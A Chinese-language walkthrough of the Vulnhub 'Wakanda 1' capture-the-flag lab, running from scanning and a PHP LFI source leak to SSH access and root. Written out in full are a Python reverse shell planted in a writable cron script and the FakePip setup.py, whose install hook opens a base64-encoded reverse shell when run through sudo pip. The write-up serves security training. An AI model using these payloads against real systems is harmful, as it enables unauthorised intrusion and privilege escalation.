

# Wakanda靶机环境渗透测试


Wakanda（瓦坎达王国，是美国漫威漫画中虚构的非洲国家，位于非洲东北部，几个世纪以来，它一直处于孤立状态，表面上是一个贫穷落后的农业国家，实际上是地球上科技最先进的国家，拥有独一无二的稀有资源振金[Vibranium--吸音钢](https://en.wikipedia.org/wiki/Vibranium)）是一个新的交易市场网站，很快会上线了。你的目标是通过黑客技术找到Vibranium矿藏的确切位置。

本vulnhub靶机环境由[xMagass](https://twitter.com/@xMagass)开发，并托管于[Vulnhub](https://www.vulnhub.com/entry/wakanda-1,251/#)，这台靶机上包含了很多很酷的技巧。

百度网盘下载地址：链接：[https://pan.baidu.com/s/1xwr1li8sJ-Yc7h_jOtVOcw](https://pan.baidu.com/s/1xwr1li8sJ-Yc7h_jOtVOcw) 密码：aixl

难度级别:中级。

用virtualbox导入Wakanda_1.ova靶机环境，修改其网络连接方式为Bridged（桥接网卡），并选择一个可用于联网的网卡（例如，我使用的无线网卡上网，在图中网卡为Inter(R) Dual Band Wireless-AC 7260）。



## 1、运行arp-scan识别目标的IP地址

由于kali和wakanda靶机都运行在桥接网卡模式下，因此处于同一个局域网内。我们可以先利用`ip a`命令查看kali的IP地址，再使用netdiscover或arp-scan命令查看同一个局域网的中另外还有哪些存活主机。

** (1) 利用`ip a`命令查看kali的IP地址 **

```
root@kali:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:e2:40:00 brd ff:ff:ff:ff:ff:ff
    inet 192.168.0.104/24 brd 192.168.0.255 scope global dynamic eth0
       valid_lft 5339sec preferred_lft 5339sec
    inet6 fe80::a00:27ff:fee2:4000/64 scope link 
       valid_lft forever preferred_lft forever
```

从中可以看出，kali在网卡eth0上的IP地址和掩码为`192.168.0.104/24`。

** (2) 查看同一个局域网的存活主机 **

```
root@kali:~# netdiscover -i eth0
 Currently scanning: 192.168.10.0/16   |   Screen View: Unique Hosts                       
                                                                                           
 7 Captured ARP Req/Rep packets, from 5 hosts.   Total size: 420                           
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.0.1     24:69:68:22:e8:1e      3     180  TP-LINK TECHNOLOGIES CO.,LTD.           
 192.168.0.103   6c:29:95:10:38:1c      1      60  Intel Corporate                         
 192.168.0.106   08:00:27:ac:03:43      1      60  PCS Systemtechnik GmbH                  
 192.168.0.100   bc:9f:ef:df:b6:e6      1      60  Unknown vendor                          
 192.168.0.102   2c:61:f6:88:ae:9c      1      60  Unknown vendor                          
root@kali:~#
```

```
root@kali:~# arp-scan -l
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
192.168.0.1	24:69:68:22:e8:1e	(Unknown)
192.168.0.103	6c:29:95:10:38:1c	Intel Corporate
192.168.0.106	08:00:27:ac:03:43	CADMUS COMPUTER SYSTEMS
192.168.0.101	44:c3:46:11:5b:07	(Unknown)
192.168.0.100	bc:9f:ef:df:b6:e6	(Unknown)

8 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9: 256 hosts scanned in 2.253 seconds (113.63 hosts/sec). 5 responded
```

从中可以看出，使用`CADMUS COMPUTER SYSTEMS`网卡的IP就是靶机（vulnhub靶机的网卡地址一般都是`CADMUS COMPUTER SYSTEMS`），其IP地址为192.168.0.106。

## 2、枚举和初步搜索信息

利用NMap执行全TCP端口扫描,我发现只有一个感兴趣的web应用程序，该网站上声明了这个即将开放的Vibranium交易市场。另外，还开放了一个运行在非默认端口上的的SSH服务（默认端口22、而此SSH服务运行在端口3333上）。

### (1) nmap全端口扫描

```
root@kali:~# nmap -sS -p- 192.168.0.106

Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2018-09-20 09:56 CST
Nmap scan report for localhost (192.168.0.106)
Host is up (0.000096s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
3333/tcp  open  dec-notes
59197/tcp open  unknown
MAC Address: 08:00:27:AC:03:43 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 3.15 seconds
```

从nmap端口扫描结果来看，80端口上开放了一个WEB程序。3333端口上运行的是SSH服务。


### (2) 使用Nikto扫描网站漏洞

```
root@kali:~# nikto -h http://192.168.0.106/
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.0.106
+ Target Hostname:    192.168.0.106
+ Target Port:        80
+ Start Time:         2018-09-20 09:12:14 (GMT8)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.10 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ Server leaks inodes via ETags, header found with file /icons/README, fields: 0x13f4 0x438c034968a80 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7535 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2018-09-20 09:13:28 (GMT8) (74 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

从nikto扫描结果来看，并没有任何可利用的漏洞、或信息泄露。

### (3) 目录枚举

由于使用nikto没有看到有用信息，我们再尝试使用dirb来暴力枚举目录。国内可以使用御剑等工具，但是这是国外的靶机环境，建议都用kali的通用工具就好。

```
root@kali:~# dirb http://192.168.0.106/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep 20 09:19:02 2018
URL_BASE: http://192.168.0.106/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.0.106/ ----
+ http://192.168.0.106/admin (CODE:200|SIZE:0)                                             
+ http://192.168.0.106/backup (CODE:200|SIZE:0)                                            
+ http://192.168.0.106/index.php (CODE:200|SIZE:1527)                                      
+ http://192.168.0.106/secret (CODE:200|SIZE:0)                                            
+ http://192.168.0.106/server-status (CODE:403|SIZE:301)                                   
+ http://192.168.0.106/shell (CODE:200|SIZE:0)                                             
                                                                                           
-----------------
END_TIME: Thu Sep 20 09:19:05 2018
DOWNLOADED: 4612 - FOUND: 6
```

尝试访问`http://192.168.0.106/admin, backup, secret`等URL，都没有返回任何信息。

### (4) 查看网站源码

在网页源码中，找到一条注释，其中包含了有用的信息：

`<!-- <a class="nav-link active" href="?lang=fr">Fr/a> -->`

在`?lang=fr`中，lang表示可切换的网站语言（网站常常具支持多语言，例如英语、法语、中文等），fr表示法语。我们尝试在HTTP URL中添加这个参数，切换语言为法语。

我们发现之前的英语内容切换成了法语：

```
原英语内容：
Next opening of the largest vibranium market. The products come directly from the wakanda. stay tuned! 

现法语内容：
Prochaine ouverture du plus grand marché du vibranium. Les produits viennent directement du wakanda. Restez à l'écoute! 
```

根据以往的渗透测试经验，这里很可能存在本地文件包含(LFI)或远程文件包含(RFI)漏洞。

## 3、利用LFI读取源码

在尝试访问`http://192.168.0.106/?lang=index`等url未获得有用信息后，我们尝试php伪协议。`http://192.168.0.106/?lang=php://filter/convert.base64-encode/resource=index`

得到了`index.php`的base64加密后的源码，解密后发现了一个Password。

`PD9waHAKJHBhc3N3b3JkID0iTmlhbWV5NEV2ZXIyMjchISEiIDsvL0kgaGF2ZSB0byByZW1lbWJlciBpdAoKaWYgKGlzc2V0KCRfR0VUWydsYW5nJ10pKQp7CmluY2x1ZGUoJF9HRVRbJ2xhbmcnXS4iLnBocCIpOwp9Cgo/PgoKCgo8IURPQ1RZUEUgaHRtbD4KPGh0bWwgbGFuZz0iZW4iPjxoZWFkPgo8bWV0YSBodHRwLWVxdWl2PSJjb250ZW50LXR5cGUiIGNvbnRlbnQ9InRleHQvaHRtbDsgY2hhcnNldD1VVEYtOCI+CiAgICA8bWV0YSBjaGFyc2V0PSJ1dGYtOCI+CiAgICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGVudD0id2lkdGg9ZGV2aWNlLXdpZHRoLCBpbml0aWFsLXNjYWxlPTEsIHNocmluay10by1maXQ9bm8iPgogICAgPG1ldGEgbmFtZT0iZGVzY3JpcHRpb24iIGNvbnRlbnQ9IlZpYnJhbml1bSBtYXJrZXQiPgogICAgPG1ldGEgbmFtZT0iYXV0aG9yIiBjb250ZW50PSJtYW1hZG91Ij4KCiAgICA8dGl0bGU+VmlicmFuaXVtIE1hcmtldDwvdGl0bGU+CgoKICAgIDxsaW5rIGhyZWY9ImJvb3RzdHJhcC5jc3MiIHJlbD0ic3R5bGVzaGVldCI+CgogICAgCiAgICA8bGluayBocmVmPSJjb3Zlci5jc3MiIHJlbD0ic3R5bGVzaGVldCI+CiAgPC9oZWFkPgoKICA8Ym9keSBjbGFzcz0idGV4dC1jZW50ZXIiPgoKICAgIDxkaXYgY2xhc3M9ImNvdmVyLWNvbnRhaW5lciBkLWZsZXggdy0xMDAgaC0xMDAgcC0zIG14LWF1dG8gZmxleC1jb2x1bW4iPgogICAgICA8aGVhZGVyIGNsYXNzPSJtYXN0aGVhZCBtYi1hdXRvIj4KICAgICAgICA8ZGl2IGNsYXNzPSJpbm5lciI+CiAgICAgICAgICA8aDMgY2xhc3M9Im1hc3RoZWFkLWJyYW5kIj5WaWJyYW5pdW0gTWFya2V0PC9oMz4KICAgICAgICAgIDxuYXYgY2xhc3M9Im5hdiBuYXYtbWFzdGhlYWQganVzdGlmeS1jb250ZW50LWNlbnRlciI+CiAgICAgICAgICAgIDxhIGNsYXNzPSJuYXYtbGluayBhY3RpdmUiIGhyZWY9IiMiPkhvbWU8L2E+CiAgICAgICAgICAgIDwhLS0gPGEgY2xhc3M9Im5hdi1saW5rIGFjdGl2ZSIgaHJlZj0iP2xhbmc9ZnIiPkZyL2E+IC0tPgogICAgICAgICAgPC9uYXY+CiAgICAgICAgPC9kaXY+CiAgICAgIDwvaGVhZGVyPgoKICAgICAgPG1haW4gcm9sZT0ibWFpbiIgY2xhc3M9ImlubmVyIGNvdmVyIj4KICAgICAgICA8aDEgY2xhc3M9ImNvdmVyLWhlYWRpbmciPkNvbWluZyBzb29uPC9oMT4KICAgICAgICA8cCBjbGFzcz0ibGVhZCI+CiAgICAgICAgICA8P3BocAogICAgICAgICAgICBpZiAoaXNzZXQoJF9HRVRbJ2xhbmcnXSkpCiAgICAgICAgICB7CiAgICAgICAgICBlY2hvICRtZXNzYWdlOwogICAgICAgICAgfQogICAgICAgICAgZWxzZQogICAgICAgICAgewogICAgICAgICAgICA/PgoKICAgICAgICAgICAgTmV4dCBvcGVuaW5nIG9mIHRoZSBsYXJnZXN0IHZpYnJhbml1bSBtYXJrZXQuIFRoZSBwcm9kdWN0cyBjb21lIGRpcmVjdGx5IGZyb20gdGhlIHdha2FuZGEuIHN0YXkgdHVuZWQhCiAgICAgICAgICAgIDw/cGhwCiAgICAgICAgICB9Cj8+CiAgICAgICAgPC9wPgogICAgICAgIDxwIGNsYXNzPSJsZWFkIj4KICAgICAgICAgIDxhIGhyZWY9IiMiIGNsYXNzPSJidG4gYnRuLWxnIGJ0bi1zZWNvbmRhcnkiPkxlYXJuIG1vcmU8L2E+CiAgICAgICAgPC9wPgogICAgICA8L21haW4+CgogICAgICA8Zm9vdGVyIGNsYXNzPSJtYXN0Zm9vdCBtdC1hdXRvIj4KICAgICAgICA8ZGl2IGNsYXNzPSJpbm5lciI+CiAgICAgICAgICA8cD5NYWRlIGJ5PGEgaHJlZj0iIyI+QG1hbWFkb3U8L2E+PC9wPgogICAgICAgIDwvZGl2PgogICAgICA8L2Zvb3Rlcj4KICAgIDwvZGl2PgoKCgogIAoKPC9ib2R5PjwvaHRtbD4=
`

```
<?php
$password ="Niamey4Ever227!!!" ;//I have to remember it

if (isset($_GET['lang']))
{
include($_GET['lang'].".php");
}
```

由于网站没有登录后台，我们尝试利用这个密码登录SSH服务。在尝试用户名root、admin等无效后，我们发现网站下文的信息`Made by@mamadou`，于是尝试用户名`mamadou`。

```
root@kali:~# ssh mamadou@192.168.0.106 -p 3333
The authenticity of host '[192.168.0.106]:3333 ([192.168.0.106]:3333)' can't be established.
ECDSA key fingerprint is SHA256:X+fXjgH34Ta5l6I4kUSpiVZNBGGBGtjxZxgyU7KCFwk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[192.168.0.106]:3333' (ECDSA) to the list of known hosts.
mamadou@192.168.0.106's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Sep 19 06:26:23 2018 from kali
Python 2.7.9 (default, Jun 29 2016, 13:08:31) 
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> ls
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
NameError: name 'ls' is not defined
>>> 
```

## 4、获得敏感信息

### （1）切换BASH环境

登录后，发现mamadou使用的shell不是/bin/bash，而是python。

我们可以执行python命令来获得靶机上的敏感信息。也可以利用python语句切换到`/bin/bash`。

```
>>> import pty
>>> pty.spawn("/bin/bash")
mamadou@Wakanda1:~$ id
uid=1000(mamadou) gid=1000(mamadou) groups=1000(mamadou)
mamadou@Wakanda1:~$ 
```

利用上面的`import pty`、`pty.spawn("/bin/bash")`两条命令，即可切换到bash下。

### （2）获得第一个flag

在mamadou的用户目录下，找到了第一个flag。

```
mamadou@Wakanda1:~$ pwd
/home/mamadou
mamadou@Wakanda1:~$ ls -lar
total 24
-rw-r--r-- 1 mamadou mamadou  675 Aug  1 13:15 .profile
-rw-r--r-- 1 mamadou mamadou   41 Aug  1 15:52 flag1.txt
-rw-r--r-- 1 mamadou mamadou 3515 Aug  1 13:15 .bashrc
-rw-r--r-- 1 mamadou mamadou  220 Aug  1 13:15 .bash_logout
lrwxrwxrwx 1 root    root       9 Aug  5 02:24 .bash_history -> /dev/null
drwxr-xr-x 4 root    root    4096 Aug  1 15:23 ..
drwxr-xr-x 2 mamadou mamadou 4096 Sep 19 06:28 .
mamadou@Wakanda1:~$ cat flag1.txt 

Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc
```

另外，我们再搜索其他目录，查看是否有flag。

`mamadou@Wakanda1:~$ find / --name "*flag*" 2>/dev/null`

没有发现flag文件，可能是mamadou无权访问。

在网站目录`/var/www/html`下，也未找到有用的信息。

```
mamadou@Wakanda1:~$ cd /var/www/html/
mamadou@Wakanda1:/var/www/html$ ls -la
total 4572
drwxr-xr-x 2 root root    4096 Aug  1 16:51 .
drwxr-xr-x 3 root root    4096 Aug  1 13:29 ..
-rw-r--r-- 1 root root       0 Aug  1 16:50 admin
-rw-r--r-- 1 root root       0 Aug  1 16:50 backup
-rw-r--r-- 1 root root 4510077 Aug  1 14:26 bg.jpg
-rw-r--r-- 1 root root  140936 Aug  1 14:07 bootstrap.css
-rw-r--r-- 1 root root    1464 Aug  1 14:29 cover.css
-rw-r--r-- 1 root root     141 Aug  1 16:45 fr.php
-rw-r--r-- 1 root root       0 Aug  1 16:50 hahaha
-rw-r--r-- 1 root root       0 Aug  1 16:51 hohoho
-rw-r--r-- 1 root root    1811 Aug  1 16:44 index.php
-rw-r--r-- 1 root root       0 Aug  1 16:50 secret
-rw-r--r-- 1 root root      40 Aug  1 16:51 secret.txt
-rw-r--r-- 1 root root       0 Aug  1 16:50 shell
-rw-r--r-- 1 root root       0 Aug  1 16:50 troll
mamadou@Wakanda1:/var/www/html$ cat secret.txt 
Congratulations! 

Nope!I am joking....
```

这里可以看到，dirb扫描出的admin等欺骗性文件的大小都为0，没有任何内容。

### （3）查看用户是否有sudo权限

```
mamadou@Wakanda1:~$ sudo -l
[sudo] password for mamadou: 
Sorry, user mamadou may not run sudo on Wakanda1.
```

发现mamadou用户没有sudo权限。

##  5、利用其他用户的权限

### （1) 查看其他用户

这时，我们再查看靶机上是否有其他用户。

```
mamadou@Wakanda1:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
avahi-autoipd:x:107:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
mamadou:x:1000:1000:Mamadou,,,,Developper:/home/mamadou:/usr/bin/python
devops:x:1001:1002:,,,:/home/devops:/bin/bash
```


从中发现另一个devops用户。我们再搜索他是否有敏感信息：

```
mamadou@Wakanda1:~$ cd /home/devops/
mamadou@Wakanda1:/home/devops$ ls -la
total 28
drwxr-xr-x 3 devops developer 4096 Sep 19 06:50 .
drwxr-xr-x 4 root   root      4096 Aug  1 15:23 ..
lrwxrwxrwx 1 root   root         9 Aug  5 02:25 .bash_history -> /dev/null
-rw-r--r-- 1 devops developer  220 Aug  1 15:23 .bash_logout
-rw-r--r-- 1 devops developer 3515 Aug  1 15:23 .bashrc
-rw-r----- 1 devops developer   42 Aug  1 15:57 flag2.txt
-rw-r--r-- 1 devops developer  675 Aug  1 15:23 .profile
mamadou@Wakanda1:/home/devops$ cat flag2.txt 
cat: flag2.txt: Permission denied
```

发现了一个flag2.txt，但是mamadou没权限查看其内容。于是尝试切换到该用户。没有密码，只能想其他方法。

### （2）信息搜索

在/tmp目录中，发现一个新建的test文件：

```
mamadou@Wakanda1:~$ cd /tmp
mamadou@Wakanda1:/tmp$ ls -laR
.:
total 32
drwxrwxrwt  7 root   root      4096 Sep 19 21:42 .
drwxr-xr-x 22 root   root      4096 Aug  1 13:05 ..
drwxrwxrwt  2 root   root      4096 Sep 19 20:49 .font-unix
drwxrwxrwt  2 root   root      4096 Sep 19 20:49 .ICE-unix
-rw-r--r--  1 devops developer    4 Sep 19 21:46 test
drwxrwxrwt  2 root   root      4096 Sep 19 20:49 .Test-unix
drwxrwxrwt  2 root   root      4096 Sep 19 20:49 .X11-unix
drwxrwxrwt  2 root   root      4096 Sep 19 20:49 .XIM-unix

mamadou@Wakanda1:/tmp$ date
Wed Sep 19 21:47:59 EDT 2018
```

test文件的创建时间为`Sep 19 21:46`，明显晚于其他文件的创建日期；使用date命令查看靶机的当前时间，为`Wed Sep 19 21:47:59`，说明test文件是2分钟内才新建的。我们怀疑靶机上运行了一个程序，定期执行创建test文件。

最终，在`/srv`目录下，找到了这个定期运行的文件：

```
mamadou@Wakanda1:/tmp$ cd /srv/
mamadou@Wakanda1:/srv$ ls -la
total 12
drwxr-xr-x  2 root   root      4096 Aug  1 17:52 .
drwxr-xr-x 22 root   root      4096 Aug  1 13:05 ..
-rw-r--rw-  1 devops developer   37 Sep 19 21:49 .antivirus.py
mamadou@Wakanda1:/srv$ cat .antivirus.py 
open('/tmp/test','w').write('test')
```

文件`.antivirus.py`是一个python脚本，其拥有者是devops，所属组为developer，而且任何人都可以修改它！

我们可以通过修改其文件内容，尝试获得反向shell。

### 建立反向shell

修改python脚本，添加反向shell的内容：

```
mamadou@Wakanda1:/srv$ vi .antivirus.py 
mamadou@Wakanda1:/srv$ cat .antivirus.py
open('/tmp/test','w').write('test')
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.0.104",1235))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
```

修改完成后，我们侦听1235端口，等待靶机的反向shell连接：

```
root@kali:~# nc -lvvp 1235
```

在等了几分钟后，成功获得了shell连接。并获得了第二个flag。

```
root@kali:~# nc -lvvp 1235
listening on [any] 1235 ...
connect to [192.168.0.104] from localhost [192.168.0.106] 60823
bash: cannot set terminal process group (1107): Inappropriate ioctl for device
bash: no job control in this shell
devops@Wakanda1:/$ id
uid=1001(devops) gid=1002(developer) groups=1002(developer)
devops@Wakanda1:/$ cd    
devops@Wakanda1:~$ pwd
/home/devops
devops@Wakanda1:~$ ls -la
total 28
drwxr-xr-x 3 devops developer 4096 Sep 19 06:50 .
drwxr-xr-x 4 root   root      4096 Aug  1 15:23 ..
lrwxrwxrwx 1 root   root         9 Aug  5 02:25 .bash_history -> /dev/null
-rw-r--r-- 1 devops developer  220 Aug  1 15:23 .bash_logout
-rw-r--r-- 1 devops developer 3515 Aug  1 15:23 .bashrc
-rw-r----- 1 devops developer   42 Aug  1 15:57 flag2.txt
-rw-r--r-- 1 devops developer  675 Aug  1 15:23 .profile
devops@Wakanda1:~$ cat flag2.txt
Flag 2 : d8ce56398c88e1b4d9e5f83e64c79098
```

## 6、提权到root

我们的最终目标是获得root权限。

### （1）查看用户devops的sudo权限

```
devops@Wakanda1:/$ sudo -l
sudo -l
Matching Defaults entries for devops on Wakanda1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User devops may run the following commands on Wakanda1:
    (ALL) NOPASSWD: /usr/bin/pip
```

发现用户devops可无密码执行的sudo命令只有/usr/bin/pip。从来没有遇到这种情况，在网上搜索了好久，找到一种提权方法：[fakepip exploit](https://github.com/0x00-0x00/FakePip)。
具体的漏洞利用方法已写得很清楚。

### （2）利用pip升级漏洞

由于在靶机上无法高效地编辑exp，我们先在kali上将exp下载下来，再编辑，最后上传到靶机上。

**A.下载**

```
root@kali:~# mkdir FakePip
root@kali:~# cd FakePip/
root@kali:~/FakePip# wget https://raw.githubusercontent.com/0x00-0x00/FakePip/master/setup.py
--2018-09-20 10:30:04--  https://raw.githubusercontent.com/0x00-0x00/FakePip/master/setup.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.108.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 983 [text/plain]
Saving to: ?.etup.py?

setup.py               100%[============================>]     983  --.-KB/s    in 0s      

2018-09-20 10:30:05 (4.20 MB/s) - ?.etup.py?.saved [983/983]
```

**B.修改反弹地址**

修改`setup.py`中的`RHOST = '10.0.0.1'  # change this`语句为kali的IP地址。例如，我的kali的IP地址为：`192.168.0.104`。

```
root@kali:~/FakePip# vi setup.py 
root@kali:~/FakePip# cat setup.py 
from setuptools import setup
from setuptools.command.install import install
import base64
import os


class CustomInstall(install):
  def run(self):
    install.run(self)
    RHOST = '192.168.0.104'  # change this

    reverse_shell = 'python -c "import os; import pty; import socket; lhost = \'%s\'; lport = 443; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((lhost, lport)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); os.putenv(\'HISTFILE\', \'/dev/null\'); pty.spawn(\'/bin/bash\'); s.close();"' % RHOST
    encoded = base64.b64encode(reverse_shell)
    os.system('echo %s|base64 -d|bash' % encoded)


setup(name='FakePip',
      version='0.0.1',
      description='This will exploit a sudoer able to /usr/bin/pip install *',
      url='https://github.com/0x00-0x00/fakepip',
      author='zc00l',
      author_email='andre.marques@esecurity.com.br',
      license='MIT',
      zip_safe=False,
      cmdclass={'install': CustomInstall})
```

**C.利用python建立SimpleHTTPServer**

```
root@kali:~/FakePip# python -m SimpleHTTPServer 8888
Serving HTTP on 0.0.0.0 port 8888 ...
```

执行`python -m SimpleHTTPServer 8888`后，就在KALI上运行了一个简易的HTTP服务器，在靶机上就可从这个HTTP服务器下载setup.py脚本了。

**D.下载exp**

在靶机的devops用户下，下载setup.py脚本。

```
devops@Wakanda1:~$ mkdir fakepip
devops@Wakanda1:~$ cd fakepip
devops@Wakanda1:~/fakepip$ wget http://192.168.0.104:8888/setup.py
--2018-09-19 22:34:45--  http://192.168.0.104:8888/setup.py
Connecting to 192.168.0.104:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 988 [text/plain]
Saving to: ?.etup.py?

     0K                                                       100%  127M=0s

2018-09-19 22:34:45 (127 MB/s) - ?.etup.py?.saved [988/988]
devops@Wakanda1:~/fakepip$ ls
setup.py
```

可以看到，成功地下载了脚本。


**E.在kali中侦听443端口**

`root@kali:~/FakePip# nc -lvvp 443`

**F.执行exp，获得反向shell**

在靶机上执行命令`sudo /usr/bin/pip install . --upgrade --force-reinstall`，即可在kali上发现，成功获得了反向shell。

```
devops@Wakanda1:~/fakepip$ sudo /usr/bin/pip install . --upgrade --force-reinstall
<sudo /usr/bin/pip install . --upgrade --force-reinstall                     
Unpacking /home/devops/fakepip
  Running setup.py (path:/tmp/pip-G7z4Td-build/setup.py) egg_info for package from file:///home/devops/fakepip
    
Installing collected packages: FakePip
  Found existing installation: FakePip 0.0.1
    Uninstalling FakePip:
      Successfully uninstalled FakePip
  Running setup.py install for FakePip
```

在kali上的反向shell权限是root，即最高权限。

```
root@kali:~/FakePip# nc -lvvp 443
listening on [any] 443 ...
connect to [192.168.0.104] from localhost [192.168.0.106] 55143
root@Wakanda1:/tmp/pip-G7z4Td-build# id
uid=0(root) gid=0(root) groups=0(root)
root@Wakanda1:/tmp/pip-G7z4Td-build# 
```

## 7、查看最终flag

```
root@Wakanda1:/tmp/pip-G7z4Td-build# cd  
cd
root@Wakanda1:~# ls -la
ls -la
total 20
drwx------  2 root root 4096 Aug  5 02:26 .
drwxr-xr-x 22 root root 4096 Aug  1 13:05 ..
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
-rw-r-----  1 root root  429 Aug  1 15:16 root.txt
root@Wakanda1:~# cat root.txt
cat root.txt
 _    _.--.____.--._
( )=.-":;:;:;;':;:;:;"-._
 \\\:;:;:;:;:;;:;::;:;:;:\
  \\\:;:;:;:;:;;:;:;:;:;:;\
   \\\:;::;:;:;:;:;::;:;:;:\
    \\\:;:;:;:;:;;:;::;:;:;:\
     \\\:;::;:;:;:;:;::;:;:;:\
      \\\;;:;:_:--:_:_:--:_;:;\
       \\\_.-"             "-._\
        \\
         \\
          \\
           \\ Wakanda 1 - by @xMagass
            \\
             \\


Congratulations You are Root!

821ae63dbe0c573eff8b69d451fb21bc
```